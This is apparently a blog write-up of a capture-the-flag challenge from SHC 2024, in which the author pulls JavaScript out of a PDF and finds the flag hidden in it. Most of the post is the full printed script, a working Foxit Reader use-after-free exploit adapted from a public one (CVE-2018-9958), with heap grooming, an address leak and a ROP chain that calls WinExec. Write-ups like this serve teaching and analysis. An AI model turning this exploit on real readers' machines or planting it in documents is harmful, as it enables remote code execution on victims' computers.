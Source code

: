 +++
title = 'SHC 2024 Printer Destroyer Format'
date = 2024-05-06T02:59:11+02:00
draft = false
tags = ["SHC-2024", "reverse-engineering", "CVE-2018-9958"]
description = ""
showFullContent = false
+++

> I received a todo list from IT which I really need to complete.  
> Clippy is telling lies and says it is not safe to open this PDF :(  
> Stupid Clippy  

This one of my favourites challenges of this year's SHC. We got an apparently simple PDF file in which we can expect some sort of macro if we believe what we’re told in the intro.

The tool `pdfextract` from the origami repository is incredibly helpful, as it extracts everything we might be interested in for a ctf challenge : images, streams, scripts and attachments, and creates a directory in which it puts everything.

```Bash
➜  printer-destroyer-format pdfextract todo-list.pdf
➜  printer-destroyer-format tree
.
├── todo-list.dump
│   ├── attachments
│   ├── fonts
│   │   └── BCDFEE+Aptos
│   ├── images
│   ├── scripts
│   │   └── script_3292974706880921474.js
│   └── streams
│       ├── stream_17.dmp
│       ├── stream_4.dmp
│       ├── stream_49.dmp
│       └── stream_65.dmp
└── todo-list.pdf
```

As we can see, it extracted a script (which was huge hex-encoded block in the hexdump, I had to decode it manually). It looks like this :

```JavaScript
var heap_ptr = 0;
var foxit_base = 0;
var pwn_array = [];

function prepare_heap(size) {
    var arr = new Array(size);
    for (var i = 0; i < size; i++) {
        arr[i] = this.addAnnot({ type: "Text" });;
        if (typeof arr[i] == "object") {
            arr[i].destroy();
        }
    }
}

function gc() {
    const maxMallocBytes = 128 * 0x100000;
    for (var i = 0; i < 3; i++) {
        var x = new ArrayBuffer(maxMallocBytes);
    }
}

function alloc_at_leak() {
    for (var i = 0; i < 0x64; i++) {
        pwn_array[i] = new Int32Array(new ArrayBuffer(0x40));
    }
}

function control_memory() {
    for (var i = 0; i < 0x64; i++) {
        for (var j = 0; j < pwn_array[i].length; j++) {
            pwn_array[i][j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak_vtable() {
    var a = this.addAnnot({ type: "Text" });

    a.destroy();
    gc();

    prepare_heap(0x400);
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    var leaked = stolen[0] & 0xffff0000;
    foxit_base = leaked - 0x01f50000;
}

function leak_heap_chunk() {
    var a = this.addAnnot({ type: "Text" });
    a.destroy();
    prepare_heap(0x400);

    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    alloc_at_leak();
    heap_ptr = stolen[1];
}

function reclaim() {
    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);

        rop[0x00] = heap_ptr;                // pointer to our stack pivot from the TypedArray leak
        rop[0x01] = foxit_base + 0x01a11d09; // xor ebx,ebx; or [eax],eax; ret
        rop[0x02] = 0x72727272;              // junk
        rop[0x03] = foxit_base + 0x00001450  // pop ebp; ret
        rop[0x04] = 0xffffffff;              // ret of WinExec
        rop[0x05] = foxit_base + 0x0069a802; // pop eax; ret
        rop[0x06] = foxit_base + 0x01f2257c; // IAT WinExec
        rop[0x07] = foxit_base + 0x0000c6c0; // mov eax,[eax]; ret
        rop[0x08] = foxit_base + 0x00049d4e; // xchg esi,eax; ret
        rop[0x09] = foxit_base + 0x00025cd6; // pop edi; ret
        rop[0x0a] = foxit_base + 0x0041c6ca; // ret
        rop[0x0b] = foxit_base + 0x000254fc; // pushad; ret


        rop[0x0c] = 0x32636873
        rop[0x0d] = 0x7b343230
        rop[0x0e] = 0x70696c63
        rop[0x0f] = 0x635f7970
        rop[0x10] = 0x5f746e61
        rop[0x11] = 0x706c6568
        rop[0x12] = 0x756f795f
        rop[0x13] = 0x7d21215f
        rop[0x14] = 0x00000000
        rop[0x15] = 0x00000000
        rop[0x16] = 0x00000000


        rop[0x17] = 0x00000000; // adios, amigo :) (from original exploit from https://www.exploit-db.com/exploits/44941)
    }
}

function trigger_uaf() {
    var that = this;
    var a = this.addAnnot({ type: "Text", page: 0, name: "uaf" });
    var arr = [1];
    Object.defineProperties(arr, {
        "0": {
            get: function () {

                that.getAnnot(0, "uaf").destroy();

                reclaim();
                return 1;
            }
        }
    });

    a.point = arr;
}

function main() {
    leak_heap_chunk();
    leak_vtable();
    control_memory();
    trigger_uaf();
}

main();
```

Looking at the code, we can quickly understand that it’s a pretty sophisticated pwn exploit, as we see some heap manipulation. Searching through exploit-db for the first lines of that exploit, we discover that it’s the exact copy of a Foxit Reader exploit from 2018. Actually, _not an exact copy_ as we see that there’s something strange in the shellcode, something not commented, looking like hexadecimal :

```JavaScript
rop[0x0c] = 0x32636873
rop[0x0d] = 0x7b343230
rop[0x0e] = 0x70696c63
rop[0x0f] = 0x635f7970
rop[0x10] = 0x5f746e61
rop[0x11] = 0x706c6568
rop[0x12] = 0x756f795f
rop[0x13] = 0x7d21215f
rop[0x14] = 0x00000000
rop[0x15] = 0x00000000
rop[0x16] = 0x00000000
```

If we go and decode these values, we get the flag : `shc2024{clippy_cant_help_you_!!}`

